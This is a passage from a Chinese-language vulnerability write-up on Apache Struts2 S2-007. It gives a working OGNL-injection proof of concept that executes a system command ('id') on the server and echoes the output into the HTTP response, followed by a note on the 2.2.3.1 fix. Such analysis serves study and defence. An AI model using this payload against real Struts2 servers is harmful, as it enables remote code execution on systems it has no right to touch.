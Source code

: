 至此，该漏洞的原理分析完了。

### 可回显PoC

```
' + (
#_memberAccess.allowStaticMethodAccess=true,
#context['xwork.MethodAccessor.denyMethodExecution']=false,
#ret=@java.lang.Runtime@getRuntime().exec('id'),
#br=new java.io.BufferedReader(new java.io.InputStreamReader(#ret.getInputStream())),
#res=new char[20000],
#br.read(#res),
#writer=#context.get('com.opensymphony.xwork2.dispatcher.HttpServletResponse').getWriter(),
#writer.println(new java.lang.String(#res)),
#writer.flush(),
#writer.close()
) + '
```

<img src="pic/struts2_s2-007_11.png">

## 漏洞修复

Struts2 `2.2.3.1`版本，依赖的XWork的版本也是`2.2.3.1`，在默认拦截器`org.apache.struts2.interceptor.StrutsConversionErrorInterceptor`的`getOverrideExpr()`方法中进行了修复。

<img src="pic/struts2_s2-007_12.png">
